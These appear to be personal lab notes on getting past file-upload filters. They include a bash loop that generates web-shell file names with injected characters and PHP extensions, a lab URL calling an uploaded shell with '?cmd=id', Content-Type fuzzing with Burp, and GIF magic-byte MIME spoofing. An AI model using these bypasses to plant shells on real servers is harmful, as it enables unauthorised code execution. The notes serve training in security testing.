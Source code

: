 #### Character Injection Bash Script
```Shell
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```
Use in Burp to fuzz for allowable extensions

***LAB notes:*
Extension that worked was: `.phar.jpg` (Reverse Double Extension)
```url
http://142.93.38.9:30999/profile_images/shell.phar.jpg?cmd=id
```

## Type Filters

If you've tried previous methods and the file extension does not affect the error message, the web application must be testing the file content for type validation.

Two common methods for validating the file content: 
- `Content-Type Header`
- `File Content`

### Content-Type

#### Fuzzing the Content-Type header with SecLists' `Content-Type` Wordlist (`/usr/share/SecLists/Miscellaneous/web/content-type.txt`)
```Shell
cat content-type.txt | grep 'image/' > image-content-types.txt
```

#### Intercept the payload request and use Burp Intruder to fuzz the `Content-Type` header:
![[Pasted image 20230206095755.png]]
*Note: A file upload HTTP request has two Content-Type headers, one for the attached file (at the bottom), and one for the full request (at the top). We usually need to modify the file's Content-Type header, but in some cases the request will only contain the main Content-Type header (e.g. if the uploaded content was sent as POST data), in which case we will need to modify the main Content-Type header.*

### MIME-Type
If we change the first bytes of any file to the GIF magic bytes, its MIME type would be changed to a GIF image, regardless of its remaining content or extension.

*Tip: Many other image types have non-printable bytes for their file signatures, while a GIF image starts with ASCII printable bytes (as shown above), so it is the easiest to imitate. Furthermore, as the string GIF8 is common between both GIF signatures, it is usually enough to imitate a GIF image.*
	`GIF87a` or `GIF89a`
